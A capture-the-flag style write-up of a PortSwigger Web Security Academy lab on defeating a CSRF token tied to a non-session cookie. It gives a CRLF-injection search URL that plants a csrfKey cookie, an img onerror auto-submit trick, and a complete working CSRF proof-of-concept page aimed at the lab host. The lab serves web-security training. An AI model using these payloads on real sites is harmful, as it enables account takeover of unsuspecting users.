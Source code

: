 ## CSRF where token is tied to non-session cookie
Reference: https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie


This lab is actually pretty fun. There is a CSRF token protecting the change email functionality, but it is tied to non-session cookie (``csrfKey``). Of course the PoC from the previous lab cannot be used, there is a pretty cool way to inject ``csrfKey`` into the victim's browser. The search functionality stores in a cookie the last searched term, by searching a specific string like the following it is possible to set a valid cookie into the browser:
```
/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key
```

Now that we find a way to inject ``csrfKey`` into the victim's browser the PoC from the previous lab can be used by changing the auto-submit part to: 
```html
<img src="$cookie-injection-url" onerror="document.forms[0].submit()">
```


### Solution
1. With your browser proxying traffic through Burp Suite, log in to your account, submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that changing the ``session`` cookie logs you out, but changing the ``csrfKey`` cookie merely results in the CSRF token being rejected. This suggests that the ``csrfKey`` cookie may not be strictly tied to the session.
3. Open a private/incognito browser window, log in to your other account, and send a fresh update email request into Burp Repeater.
4. Observe that if you swap the ``csrfKey`` cookie and ``csrf`` parameter from the first account to the second account, the request is accepted.
5. Close the Repeater tab and incognito browser.
6. Back in the original browser, perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.
7. Create a URL that uses this vulnerability to inject your csrfKey cookie into the victim's browser:
```
/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key
```
8. Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab, ensuring that you include your CSRF token. The exploit should be created from the email change request.
9. Remove the ``script`` block, and instead add the following code to inject the cookie:
```html
<img src="$cookie-injection-url" onerror="document.forms[0].submit()">
```
10. Store the exploit, then click "Deliver to victim" to solve the lab.

example code:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af500c604ca2ca580fc3ac800650091.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="grnjgrurghugr&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="o3BpINxyLJ0GNUGf3uZbnSlmor7noH9h" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0af500c604ca2ca580fc3ac800650091.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=Ka9JMsNY6a2qsOb1eQwCLX9oRQQbfJs4%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>

```
